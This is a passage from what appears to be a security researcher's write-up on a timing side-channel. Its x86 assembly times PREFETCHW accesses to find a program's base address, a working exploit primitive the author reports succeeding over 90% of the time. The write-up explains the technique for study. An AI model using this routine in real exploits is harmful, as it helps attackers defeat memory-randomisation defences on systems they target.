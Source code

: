 For this reason, we won’t use the formula mentioned above for the threshold. Instead, we’ll calculate the average of 1024 valid memory accesses and add `0x05` to it. This will serve as our new threshold.

While `mfence` also works with VMASKMOV, I found that PREFETCH only works with `lfence`. 

```asm
;mean time to access valid memory
xor r11,r11
mov rdi, 1024
    .time:
        rdtsc
        mov ebp,eax
        lfence
        PREFETCHW [rip]
        lfence
        rdtsc
        sub eax,ebp
        add r11, rax
        dec rdi
        test rdi, rdi
    jnz .time
shr r11, 10

;threshold = mean +0x5
add r11 , 0x05

;search starting point
mov rdi, 0x550000000000
mov rsi, 0x1000

;test each memory address till the binary base is found
.find:
     add rdi, rsi
     PREFETCHW [rdi]
     lfence
     
     rdtsc
     mov ebp,eax
     lfence
     PREFETCHW [rdi]
     lfence
     rdtsc
     
     sub eax,ebp
     cmp rax, r11
     jge .find   
     
;binary base in rdi! 
```

## Conclusions and Final Exploit
I spent an entire week experimenting with this technique, striving to optimize it, and I must say, it was a thoroughly enjoyable process!😊 
Both PREFETCH and VMASKMOV proved to be highly effective, even though it took me several days to get PREFETCH to work. Both methods are reliable enough, making the same exploit work in more than 90% of cases, which is far more than I initially expected 🤓. After all, we are timing memory access, which could be influenced by a myriad of factors.
